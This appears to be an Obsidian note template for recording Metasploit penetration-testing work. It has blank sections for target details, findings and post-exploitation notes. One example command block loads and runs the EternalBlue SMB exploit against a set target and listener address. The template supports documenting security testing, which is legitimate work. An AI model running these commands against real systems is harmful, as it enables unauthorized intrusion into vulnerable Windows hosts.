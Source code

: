 ```yaml
---
title: "<% tp.file.title %>"
type: tool-note
tool: Metasploit
created: "<% tp.date.now('YYYY-MM-DD') %>"
tags: [tool, metasploit, exploit]
cssclass: cs-note
---
```


# <% tp.file.title %>

> [!meta]
> Campaign/Target:  • Date: <% tp.date.now('YYYY-MM-DD') %>

## Objective
Exploit validation, post-exploitation, or module testing.

## Target Info
- Host:  
- Ports:  
- Service/Version:  
- OS:  

## Modules / Commands
```text
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.0.0.5
set LHOST 10.0.0.10
run
```

## Output / Findings
Paste console output and results.

## Post-Exploitation Notes
- Privilege escalation:  
- Persistence:  
- Data exfiltration:  

## Artifacts / Evidence
`/Evidence/metasploit/` — files/screenshots/logs

## Next Steps
- 

## References
metasploit-framework docs, exploit-db

